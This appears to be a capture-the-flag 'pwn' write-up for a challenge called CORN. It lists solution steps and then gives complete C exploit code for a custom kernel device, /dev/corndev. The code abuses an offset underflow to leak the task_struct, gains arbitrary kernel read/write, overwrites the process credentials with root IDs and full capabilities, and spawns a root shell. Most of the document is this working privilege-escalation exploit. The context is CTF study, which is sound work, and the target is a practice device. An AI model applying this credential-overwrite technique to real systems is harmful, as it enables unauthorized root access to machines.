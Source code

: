# CORN

author: alng

category: pwn

## Solution

Steps:
1. There is underflow r/w vuln due to being able to set an invalid r/w offset
   * invalid bounds checking when accessing struct corn_kernel->offset
2. Use this to leak current task_struct from corn_kernel->owner
3. With underflow bug abv., we can modify corn_kernel->data_ptr
4. This gives us arb r/w, use this to patch our task_struct's credentials
5. You are now root, yay

Exploit code (solve.c):
```c
#include "racelib.h" // just contains all the includes
#define DELTA_CREDS 0x720

struct cred_uid {
	uint32_t uid;             /* real UID of the task */
    uint32_t gid;             /* real GID of the task */
    uint32_t suid;            /* saved UID of the task */
    uint32_t sgid;            /* saved GID of the task */
    uint32_t euid;            /* effective UID of the task */
    uint32_t egid;            /* effective GID of the task */
    uint32_t fsuid;           /* UID for VFS ops */
    uint32_t fsgid;           /* GID for VFS ops */
    uint32_t securebits;      /* SUID-less security management */
    uint64_t cap_inheritable; /* caps our children can inherit */
    uint64_t cap_permitted;   /* caps we're permitted */
    uint64_t cap_effective;   /* caps we can actually use */
    uint64_t cap_bset;        /* capability bounding set */
};

#define GLOBAL_ROOT_UID     0
#define GLOBAL_ROOT_GID     0
#define SECURE_BITS_DEFAULT 0
#define CAP_EMPTY_SET       0
#define CAP_FULL_SET        -1

void main() {

	int res = 0;
	void *buf[0x100];

	int fd = open("/dev/corndev", O_RDWR);
    LOG("open res: %d", fd);

	ioctl(fd, 0, 0);
	ioctl(fd, 3, 0);
	ioctl(fd, 4, (long) -0x10);
	pread(fd, buf, 0x20, 0);
	uint64_t task_struct = buf[0];
	uint64_t task_creds = task_struct + DELTA_CREDS;
	printf("task_struct %p\n", task_struct);
	ioctl(fd, 4, (long) 0x8);
	pwrite(fd, &task_creds, 0x8, 0);
	ioctl(fd, 4, 0x8);
	pread(fd, buf, 0x20, 0);
	uint64_t task_creds_uid = buf[0] + 8;
	printf("creds_uid: %p\n", task_creds_uid);

	ioctl(fd, 0, 1);
	ioctl(fd, 3, 0);
	ioctl(fd, 4, (long) -0x8);
	pwrite(fd, &task_creds_uid, 0x8, 0);
	ioctl(fd, 4, 0x8);

	struct cred_uid new_cred;
	new_cred.uid = GLOBAL_ROOT_UID;
	new_cred.gid = GLOBAL_ROOT_GID;
	new_cred.suid = GLOBAL_ROOT_UID;
	new_cred.sgid = GLOBAL_ROOT_GID;
	new_cred.euid = GLOBAL_ROOT_UID;
	new_cred.egid = GLOBAL_ROOT_GID;
	new_cred.fsuid = GLOBAL_ROOT_UID;
	new_cred.fsgid = GLOBAL_ROOT_GID;
	new_cred.securebits = SECURE_BITS_DEFAULT;
	new_cred.cap_inheritable = CAP_EMPTY_SET;
	new_cred.cap_permitted = CAP_FULL_SET;
	new_cred.cap_effective = CAP_FULL_SET;
	new_cred.cap_bset = CAP_FULL_SET;

	pwrite(fd, &new_cred, sizeof(struct cred_uid), 0);

	setgid(0);
	setuid(0);
	system("/bin/sh");
	return;

}
```